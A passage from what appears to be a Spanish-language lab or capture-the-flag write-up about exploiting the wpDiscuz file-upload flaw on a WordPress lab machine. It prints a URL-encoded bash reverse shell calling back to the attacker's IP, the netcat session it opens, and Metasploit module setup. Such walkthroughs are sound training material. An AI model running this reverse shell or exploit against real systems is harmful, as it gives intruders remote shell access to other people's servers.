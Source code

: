 Funciona.

Tan solo hay que usar nuestra **Reverse Shell** de bash y solo URL encodeamos el ampersand:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

Ahora abre una **netcat** y luego ejecuta el comando, con eso deberías obtener una sesión de la máquina víctima:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.60] 45378
bash: cannot set terminal process group (557): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mortadela:/var/www/html/wordpress/wp-content/uploads/2025/01$ whoami
whoami
www-data
```
Bien, obtuvimos acceso a la máquina.

<br>

<h2 id="Exploit2">Probando Módulo de Metasploit: exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload</h2>

Esa misma vulnerabilidad, la podemos encontrar como un módulo de **Metasploit**, que igual ocuparon en el laboratorio de **INE Security**.

Como ya tenemos una sesión iniciada, solamente tenemos que usar ese módulo y configurarlo.

Vamos a buscarlo primero:

```bash
msf6 auxiliary(scanner/http/wordpress_scanner) > search wpdiscuz

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank       Check  Description
   -  ----                                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload  2020-02-21       excellent  Yes    WordPress wpDiscuz Unauthenticated File Upload Vulnerability

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
```

Lo configuramos:
```bash
msf6 auxiliary(scanner/http/wordpress_scanner) > use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set RHOSTS 192.168.1.60
RHOSTS => 192.168.1.60
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set BLOGPATH /index.php/2024/04/01/hola-mundo/
BLOGPATH => /index.php/2024/04/01/hola-mundo/
```
